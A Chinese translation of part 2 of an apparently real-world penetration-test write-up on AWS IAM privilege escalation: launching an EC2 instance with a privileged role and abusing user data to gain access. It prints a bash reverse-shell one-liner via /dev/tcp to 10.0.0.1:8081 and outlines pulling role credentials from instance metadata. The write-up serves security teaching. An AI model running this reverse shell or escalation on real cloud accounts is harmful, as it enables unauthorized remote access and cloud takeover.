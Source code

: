 # 利用 AWS IAM 权限实现全面的云妥协:一个真实世界的例子(2/2)

> 原文：<https://infosecwriteups.com/exploiting-aws-iam-permissions-for-total-cloud-compromise-a-real-world-example-part-2-2-f27e4b57454e?source=collection_archive---------0----------------------->

# 介绍

在[第 1 部分](https://medium.com/bugbountywriteup/exploiting-fine-grained-aws-iam-permissions-for-total-cloud-compromise-a-real-world-example-part-5a2f3de4be08)中，我们攻破了一个拥有多个权限的账户，但没有管理员权限。按照 [Rhinosecuritylab 的帖子](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation)中的方法之一，我们发现了一个允许我们提升权限的潜在角色。简而言之，我们将尝试创建一个实例，并在创建时为其附加一个特权角色。之后，如果我们可以访问实例，我们将能够查询元数据并提取允许我们使用该角色的凭证。如果你不确定这意味着什么，你可以在我之前的文章中找到更好的解释。

出于显而易见的原因，我们之前确定的潜在权限提升使用了我们称为危险角色的角色。

![](img/f1c40150a86e5bcfce9c56874eb2bb0c.png)

危险-角色已确定！

# 滥用用户数据

现在我们有了候选人，我们需要创建一个实例并为其分配角色。我们首先需要确定的一件事是，一旦创建了这个实例，我们将如何访问它？我们可以试着用现有的钥匙。让我们列出用户可用的键

![](img/53529918114aa6d2737d0d58b23c4cb7.png)

我们没有权限。即使我们做到了，也没有办法通过命令行界面获得私钥。这些仅在创建过程中打印。我们只能检索公钥，所以我们需要找到另一种方法。

AWS 有一个叫做[的用户数据](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/user-data.html)。它基本上是脚本，无论何时启动，您都可以使用它来配置实例。我们可以用它从实例中获得一个连接。让我们试试这个。首先，我们需要创建将被调用的用户数据脚本。

```
cat > reverseShell.sh <<EOF
#!/bin/bash
/bin/bash -i >& /dev/tcp/10.0.0.1/8081 0>&1
EOF
```

这将启动一个反向 shell，它将连接到 10.0.0.1:8081。
